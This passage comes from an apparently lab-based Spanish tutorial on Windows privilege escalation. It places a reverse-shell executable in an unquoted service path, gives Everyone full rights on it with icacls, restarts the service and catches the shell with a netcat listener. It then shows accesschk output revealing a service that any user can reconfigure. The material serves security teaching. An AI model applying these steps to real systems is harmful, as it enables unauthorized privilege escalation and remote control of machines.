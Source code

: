 ```
C:\> move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe

C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
```


```
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```

Una vez que el servicio se reinicia, se debería ejecutar el payload que nosotros hemos creado y darnos una shell:


```
nc -lvnp 4446
```

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FViM29l6BA3JLizZjDBsZ%252Fimagen.png%3Falt%3Dmedia%26token%3D9e82a164-4232-4417-a8d8-659db76aa9e5&width=768&dpr=4&quality=100&sign=7a177811746861a0a74261d999209797731fd9030c43bb45f17a96fc431c0ad0)

Shell como svcusr2

[[Windows) | VK9 SecurityVK9 Security](https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/|Privilege Escalation - Unquoted Service Path (Windows) | VK9 SecurityVK9 Security]]

### Insecure Service Permissions

Si fuera el caso de que el DACL esta bien configurado y/o el servicio tiene una ruta correcta, aun tenemos oportunidad de explotar de los servicios. Si el DACL no te deja modificarlo aun puedes intentar reconfigurarlo. Esto le permitirá apuntar a cualquier ejecutable que necesite y ejecutarlo con cualquier cuenta que prefiera, incluido el propio SISTEMA.

Para verificar que esto es posible se puede utilizar un programa llamado [Accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) que esta en la suit de sysinternals.

**Ejemplo de ejecutar el Accesschk**


```
C:\tools\AccessChk> accesschk64.exe -qlc j4ckieservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```

Podemos ver como en `BUILTIN\Users` tiene el permiso `SERVICE_ALL_ACCESS` que eso significa que los cualquier usuario puede reconfigurar el servicio.
